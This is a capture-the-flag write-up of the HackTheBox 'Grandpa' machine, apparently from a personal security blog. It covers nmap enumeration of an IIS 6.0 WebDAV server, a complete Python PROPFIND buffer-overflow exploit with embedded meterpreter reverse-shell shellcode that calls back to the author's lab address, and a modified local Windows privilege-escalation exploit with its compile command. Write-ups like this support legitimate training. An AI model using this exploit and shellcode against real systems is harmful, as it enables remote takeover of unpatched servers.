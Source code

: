 Title: HTB Grandpa box writeup
Tags: oscp, htb, iis
Summary: Manually rooting ancient box using well-known RCE
Date: 2020-10-23 17:00
Status: published

# Enumeration
Only HTTP available:
```text
    Nmap 7.80 scan initiated Wed Oct 21 23:10:56 2020 as: nmap -sS -p- -v -oA enum/nmap-ss-all 10.10.10.14
    Nmap scan report for grandpa.htb (10.10.10.14)
    Host is up (0.053s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE
    80/tcp open  http
    Read data files from: /usr/bin/../share/nmap
    Nmap done at Wed Oct 21 23:12:51 2020 -- 1 IP address (1 host up) scanned in 115.59 seconds
```
This deployment supports WebDAV, just like `Granny` machine:
```text
    Nmap 7.80 scan initiated Wed Oct 21 23:14:53 2020 as: nmap -sC -A -T4 -sV -p80 -oA enum/nmap-sCVAT4-open 10.10.10.14
    Nmap scan report for grandpa.htb (10.10.10.14)
    Host is up (0.053s latency).
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods: 
    |_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
    |_http-server-header: Microsoft-IIS/6.0
    |_http-title: Under Construction
    | http-webdav-scan: 
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |   Server Date: Wed, 21 Oct 2020 20:15:01 GMT
    |   Server Type: Microsoft-IIS/6.0
    |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
    |_  WebDAV type: Unknown
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Wed Oct 21 23:15:02 2020 -- 1 IP address (1 host up) scanned in 8.51 seconds
```
It doesn't allow to list files (or there aren't any) or to upload files, like
it was done in the `Granny` machine, so there probably should be some other
way in.

# Exploitation
The box seems pretty empty so it was straightforward to try to find some
exploits for IIS 6 and there's indeed some interesting
[RCE](https://www.exploit-db.com/exploits/41738) exploit in EDB. It looked
weird with these blobs and I found an
[equivalent](https://www.exploit-db.com/exploits/41992) as a metasploit module.
After a couple of hours it was rewritten, proper offset was found and exploit
finally worked well. There was some mystic obstacle in form of instantly dying
meterpreter shell. I overcome this by producing shellcode with exact same
options (well not the host and port obviously) like in the module. Resultant
script is like this:
```python
import socket, time


ip = '10.10.10.14'
port = 80

# found by trial and error decreasing padlen from 114
padlen = 95
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))
payload = 'PROPFIND / HTTP/1.1\r\n'
payload += 'Host: {}\r\n'.format(ip)
payload += 'User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)\r\n'
payload += 'Content-Length: 0\r\n'
payload += 'If: <http://{}:{}/{}'.format(ip, port, 'a' * padlen)
payload += ("\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c"
    "\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5"
    "\x99\x94\xe4\x9d\xac\xe6\x95\x83"
    "\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d"
    "\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5"
    "\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88"
    "\xc8\x82\xc8\x82\xe1\x8b\x80\xe6"
    "\xa0\x83\xe6\xb1\x84\xe5\x89\x96"
    "\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd"
    "\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4"
    "\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92"
    "\xe4\x85\x90\xe6\x99\x8d\xe1\x8f"
    "\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6"
    "\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6"
    "\xe7\x91\x81\xe4\x8d\xac\xe1\x8f"
    "\x80\xe6\xa0\x83\xe5\x8d\x83\xe6"
    "\xa9\x81\xe7\x81\x92\xe3\x8c\xb0"
    "\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81"
    "\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7"
    "\xa5\x81\xe7\xa9\x90\xe4\xa9\xac")
payload += '>'
payload += ' (Not <locktoken:write1>) <http://{}:{}/{}'.format(
    ip, port, 'b' * padlen)
payload += ("\xe5\xa9\x96\xe6\x89\x81\xe6\xb9"
    "\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5"
    "\x90\xb3\xe3\x85\x82\xe5\xa1\xa5"
    "\xe5\xa5\x81\xe7\x85\x90\xe3\x80"
    "\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5"
    "\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83"
    "\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9"
    "\x8f\xe6\xa0\x80\xe4\x89\x87\xe7"
    "\x99\xaa\xe1\x8f\x80\xe6\xa0\x83"
    "\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5"
    "\x87\xe5\x88\xb4\xe4\xad\xa6\xe4"
    "\xad\x82\xe7\x91\xa4\xe7\xa1\xaf"
    "\xe6\x82\x82\xe6\xa0\x81\xe5\x84"
    "\xb5\xe7\x89\xba\xe7\x91\xba\xe4"
    "\xb5\x87\xe4\x91\x99\xe5\x9d\x97"
    "\xeb\x84\x93\xe6\xa0\x80\xe3\x85"
    "\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6"
    "\xa0\x81\xe1\x91\xa0\xe6\xa0\x83"
    "\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf"
    "\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0"
    "\x83\xd1\xae\xe6\xa0\x83\xe7\x85"
    "\xae\xe7\x91\xb0\xe1\x90\xb4\xe6"
    "\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81"
    "\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4"
    "\xb1\xe6\x99\xae\xe4\xa5\x95\xe3"
    "\x81\x92\xe5\x91\xab\xe7\x99\xab"
    "\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90"
    "\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6"
    "\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8"
    "\xe4\xb5\xa9\xe3\x99\xac\xe4\x91"
    "\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6"
    "\xa0\x80\xe4\xa1\xb7\xe3\x89\x93"
    "\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd"
    "\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6"
    "\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81")

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.35 LPORT=443  \
# EXITFUNC=process PrependMigrate=true -f python -o met-1435-443.py -a x86 \
# --platform windows -e x86/unicode_mixed BufferRegister=ESI -b '\x00' -s 2000
payload += ("VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAA"
    "Z1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JBil"
    "hiQzYp9pm0omTCWULKcQhDRPKNYo9oRmb4NDOpr2qXfQOZ2KEaIoJ5tMmto4opJ"
    "Kc0aNDMSH1PNwr0ma7koc23rHJdIpM0LHR3ocr3r6B3BH49XLOOrfio6uauUpD4"
    "1IpjQ0cPi7lPocb3Lqwkb3ioNW2HdnQwf2MoKOYE0Tphr5m1ypM0zKP9B0KOmgq"
    "X95J8UmiWKOGeocPSr3BkNlO4il0QR30SYolwC8vfDlTZPykO7epjKOQX14zPOE"
    "GpioWejHUKyoiokO3BCEBN1TrLplP3OBYpXhD1yoIoiojHwRYokOYoyliXcRypk"
    "Pm01PqyjEp1up344KNplpbkobLLBkR2LTrksBlhzoegMzO6p1io4loLs13Ljbll"
    "O05q8OJmyqI7GrZRQBNw2kQBJp2kNjMldKNlN148ySPH9qwaPQbkNymPiqvsdK0"
    "IZx8cLzNiDK044KyqfvMayotlGQhOlMKQVgnXWprUkFlCqmyhOKQmLdRUHdqHtK"
    "aHMT9qj336DKLLpKbkohMLyqz3Bk9t4KyqXPE9Q4KtLd1KaKoqb91J0QKO9PooO"
    "oojDKMB8kbmqMoxp3oBypIps8bWBSoBQOb4phnlsGKvLGu9xhkOJ0ehtPiqkPkP"
    "NIHDR4NpPhO9ap0kIpKOWe2JYzox9zlJjnNCox9rM0iqEk4I8fpPpPpPpPMpr0q"
    "0r0BHjJlOgoGpIoz5bw0jZpb6b7C8ryde3D1Q9oiEDE5p1dKZyo0NIxd58lXhRG"
    "Yp9pM02JKPPj9tpV1GPhLBiIVhQOYo8U1sHxIpSN06TK06aZOPrHKPzpIpYpnvq"
    "ZkP2HaHfDnsWuYoHUrspSQZIpR6oc27oxlBhYvhQO9o8UqsL8IpsMo8QH0hypMp"
    "ipkPbJypPPs8LKLojoLpyoZ5b738sE2N0Ms1YovuonQNkOlLo4Zore0p9o9okO8"
    "iSkyoYoKOZaEsnIi6sE91WSekL0duG2R6QZipocyogeAA")

payload += '>\r\n\r\n'
print "=" * 80
print 'PADLEN = {}'.format(padlen)
print payload

sock.send(payload)  
time.sleep(10)
print "*" * 80

sock.close()
```
Finally the shell popped out:

![service shell](/cstatic/htb-grandpa/service-shell.png)

# Privilege escalation
Privilege escalation was the same as for `Grandpa` box. I just grabbed
[this exploit](https://www.exploit-db.com/exploits/37755) and tinkered it a bit.
Here's the diff:
```text
    78c78
    < typedef DWORD NTSTATUS;
    ---
    > // typedef DWORD NTSTATUS;
    132c132
    <                 "c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32",   // Start cmd.exe
    ---
    >                 "c:\\windows\\temp\\m-1435-53.exe",   // Start cmd.exe
    423c423
    < }
    \ No newline at end of file
    ---
    > }
```
Compiled with 
`i686-w64-mingw32-gcc-win32 -I /usr/share/mingw-w64/include/ 37755.c -o a.exe`.
Fortunately spawned SYSTEM meterpreter session:

![root shell](/cstatic/htb-grandpa/root-shell.png)
